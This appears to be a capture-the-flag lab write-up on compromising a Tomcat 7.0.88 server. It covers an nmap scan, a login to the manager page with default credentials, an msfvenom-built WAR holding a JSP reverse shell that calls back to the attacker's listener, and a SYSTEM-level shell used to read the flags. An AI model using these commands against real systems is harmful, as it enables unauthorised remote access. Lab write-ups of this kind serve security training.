


crazyeights@es-base:~$ sudo nmap -sS 10.10.10.95
[sudo] password for crazyeights:
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-03 11:51 EST
Nmap scan report for 10.10.10.95
Host is up (0.033s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE
8080/tcp open http-proxy
Tomcat 7.0.88 is running
After incorrectly guessing the login, we see this page:
Trying the credentials on the page (default credentials), we get:
It allows for the manager to upload WARs, so we can upload a WAR containing a reverse shell
Using msfvenom to create a WAR
Msfvenom Command Format:
msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war
crazyeights@es-base:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=1234 -f war > bad.war
crazyeights@es-base:~$ nc -lvp 1234
listening on [any] 1234 ...
C:\Users\Administrator\Desktop\flagsMicrosoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop\flags>dir
dir
Volume in drive C has no label.
Volume Serial Number is FC2B-E489
Directory of C:\Users\Administrator\Desktop\flags
06/19/2018 06:09 AM <DIR> .
06/19/2018 06:09 AM <DIR> ..
06/19/2018 06:11 AM 88 2 for the price of 1.txt
1 File(s) 88 bytes
2 Dir(s) 27,601,014,784 bytes free
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004d_i_dont_want_to_get_in_trouble
root.txt
04a8b_i_dont_want_to_get_in_trouble
FIN.